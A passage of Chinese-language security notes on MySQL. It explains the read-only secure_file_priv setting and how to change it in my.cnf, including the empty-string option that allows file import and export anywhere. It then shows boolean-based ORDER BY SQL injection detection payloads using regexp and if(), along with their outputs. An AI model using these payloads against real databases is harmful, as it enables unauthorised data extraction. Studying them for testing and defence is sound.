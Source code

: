 ```
无法使用`set global`命令修改`secure_file_priv` 它是只读参数
mysql> set global secure_file_priv='';
ERROR 1238 (HY000): Variable 'secure_file_priv' is a read only variable

# 要修改secure_file_priv的值，必须修改配置文件 并重新启动`mysqld`之后 修改才能生效
# windows下的配置文件为 my.ini
# unix/linux/macOS 下的配置文件为my.cnf

#编辑该文件修改配置`sudo vim /etc/my.cnf`

# 默认设置1 没有进行任何配置情况下，`secure_file_priv`不存在，此时使用它的默认值`NULL` 即禁止mysqld导入或导出. 

# 可选设置2 secure_file_priv="/tmp/" 表示mysqld只能在/tmp/目录下 导入或导出.
[mysqld]
secure_file_priv="/tmp/"

# 可选设置3 secure-file-priv = ""    表示mysqld可以在任意目录进行导入或导出.
[mysqld]
secure-file-priv = ""
```

### 重点检测

#### 无法使用"预编译语句"的情况 - `order by`子句

为什么`order by`无法使用"预编译语句"? 
```
# MySQL:
# order by 子句的正常使用 如
select aid,adenname from sea_myad order by adenname;

# order by 子句之后的字段名 如果使用"预编译语句" 则字段名会被加上引号 从而order by子句"失效" 即不会对结果进行排序
select aid,adenname from sea_myad order by "adenname";
```

order by注入检测 - 基于布尔的注入

```
#条件语句，条件如果是执行第二个参数，否执行第三个参数
if(condition,true,false)

# 利用regexp
mysql> select aid,adenname from sea_myad order by (select 1 regexp if(1=1,1,0x00));
+-----+-------------------+
| aid | adenname          |
+-----+-------------------+
|   1 | channel200x200bt  |
|   2 | channel200x200top |
+-----+-------------------+


mysql> select aid,adenname from sea_myad order by (select 1 regexp if(1=2,1,0x00));
ERROR 1139 (42000): Got error 'empty (sub)expression' from regexp
```

